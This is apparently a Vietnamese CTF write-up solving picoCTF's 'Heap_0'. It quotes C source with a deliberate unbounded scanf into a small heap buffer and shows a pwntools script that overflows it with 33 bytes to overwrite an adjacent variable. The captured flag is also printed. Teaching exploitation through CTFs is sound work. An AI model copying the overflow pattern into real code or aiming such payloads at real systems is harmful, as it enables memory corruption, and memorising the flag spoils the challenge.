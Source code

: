 # Heap_0
Đến với bài này, đây là một bài ở mức `dễ` nên chắc nó dễ thật =))))

Challenge cho chúng ta 2 file, một file binary `chall` và một file .c `chall.c`. Mở file .c thì ta có source của chương trình như sau:

``` c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define FLAGSIZE_MAX 64
// amount of memory allocated for input_data
#define INPUT_DATA_SIZE 5
// amount of memory allocated for safe_var
#define SAFE_VAR_SIZE 5

int num_allocs;
char *safe_var;
char *input_data;

void check_win() {
    if (strcmp(safe_var, "bico") != 0) {
        printf("\nYOU WIN\n");

        // Print flag
        char buf[FLAGSIZE_MAX];
        FILE *fd = fopen("flag.txt", "r");
        fgets(buf, FLAGSIZE_MAX, fd);
        printf("%s\n", buf);
        fflush(stdout);

        exit(0);
    } else {
        printf("Looks like everything is still secure!\n");
        printf("\nNo flage for you :(\n");
        fflush(stdout);
    }
}

void print_menu() {
    printf("\n1. Print Heap:\t\t(print the current state of the heap)"
           "\n2. Write to buffer:\t(write to your own personal block of data "
           "on the heap)"
           "\n3. Print safe_var:\t(I'll even let you look at my variable on "
           "the heap, "
           "I'm confident it can't be modified)"
           "\n4. Print Flag:\t\t(Try to print the flag, good luck)"
           "\n5. Exit\n\nEnter your choice: ");
    fflush(stdout);
}

void init() {
    printf("\nWelcome to heap0!\n");
    printf(
        "I put my data on the heap so it should be safe from any tampering.\n");
    printf("Since my data isn't on the stack I'll even let you write whatever "
           "info you want to the heap, I already took care of using malloc for "
           "you.\n\n");
    fflush(stdout);
    input_data = malloc(INPUT_DATA_SIZE);
    strncpy(input_data, "pico", INPUT_DATA_SIZE);
    safe_var = malloc(SAFE_VAR_SIZE);
    strncpy(safe_var, "bico", SAFE_VAR_SIZE);
}

void write_buffer() {
    printf("Data for buffer: ");
    fflush(stdout);
    scanf("%s", input_data);
}

void print_heap() {
    printf("Heap State:\n");
    printf("+-------------+----------------+\n");
    printf("[*] Address   ->   Heap Data   \n");
    printf("+-------------+----------------+\n");
    printf("[*]   %p  ->   %s\n", input_data, input_data);
    printf("+-------------+----------------+\n");
    printf("[*]   %p  ->   %s\n", safe_var, safe_var);
    printf("+-------------+----------------+\n");
    fflush(stdout);
}

int main(void) {

    // Setup
    init();
    print_heap();

    int choice;

    while (1) {
        print_menu();
	int rval = scanf("%d", &choice);
	if (rval == EOF){
	    exit(0);
	}
        if (rval != 1) {
            //printf("Invalid input. Please enter a valid choice.\n");
            //fflush(stdout);
            // Clear input buffer
            //while (getchar() != '\n');
            //continue;
	    exit(0);
        }

        switch (choice) {
        case 1:
            // print heap
            print_heap();
            break;
        case 2:
            write_buffer();
            break;
        case 3:
            // print safe_var
            printf("\n\nTake a look at my variable: safe_var = %s\n\n",
                   safe_var);
            fflush(stdout);
            break;
        case 4:
            // Check for win condition
            check_win();
            break;
        case 5:
            // exit
            return 0;
        default:
            printf("Invalid choice\n");
            fflush(stdout);
        }
    }
}
```

Ta thấy chương trình sẽ chạy như sau:
- Khởi tạo heap bằng cách gọi hàm `init()`
- In ra nội dung của heap bằng cách gọi hàm `print_heap()`
- Khởi tạo menu bằng cách gọi hàm `print_menu()`
- Dựa vào input mà người dùng nhập vào, thực hiện các thao tác khác nhau với heap.

Ta nhìn vào hàm `check_win()`.

``` c
void check_win() {
    if (strcmp(safe_var, "bico") != 0) {
        printf("\nYOU WIN\n");

        // Print flag
        char buf[FLAGSIZE_MAX];
        FILE *fd = fopen("flag.txt", "r");
        fgets(buf, FLAGSIZE_MAX, fd);
        printf("%s\n", buf);
        fflush(stdout);

        exit(0);
    } else {
        printf("Looks like everything is still secure!\n");
        printf("\nNo flage for you :(\n");
        fflush(stdout);
    }
}
```

Điều kiện để in flag là dữ liệu được lưu nơi địa chỉ mà `safe_var` trỏ đến khác với chuỗi `bico`.

Tiếp tục nhìn vào hàm `write_buffer()` ta thấy rằng việc nhập vào không giới hạn kí tự (ở lựa chọn số 2).

``` c
void write_buffer() {
    printf("Data for buffer: ");
    fflush(stdout);
    scanf("%s", input_data);
}
```

Khởi chạy local:

![image](https://github.com/user-attachments/assets/4819b7d2-cb88-4fba-981b-bc44678ce2d2)

Ta thấy input nhập vào sẽ bắt đầu lưu trữ từ địa chỉ `0x627d6e71a6b0` và địa chỉ mà con trỏ `safe_var` trỏ đến là `0x627d6e71a6d0`. Ta có offset là 32 bytes, giờ ta sẽ nhập 33 kí tự 'a' để làm thay đổi dữ liệu được lưu trữ ở địa chỉ `0x627d6e71a6d0`.

![image](https://github.com/user-attachments/assets/fc16681f-189a-44a2-b782-2f3f0cbc6383)

Ta thấy dữ liệu được lưu trữ ở địa chỉ `0x627d6e71a6d0` đã thành a.

![image](https://github.com/user-attachments/assets/5e77f26a-51cb-41c3-9a3d-f54ef6fa15d4)

Và tôi `Win`, giờ ta có file exploit như sau:

``` python
from pwn import *

#p = process('./chall')
p = remote('tethys.picoctf.net', 53076)
write = b'2'
flag = b'4'
payload = 33 * 'a'
p.sendline(write)
p.sendline(payload)
p.sendline(flag)
p.interactive()
```

Và ta có flag:
```
picoCTF{my_first_heap_overflow_0c473fe8}
```
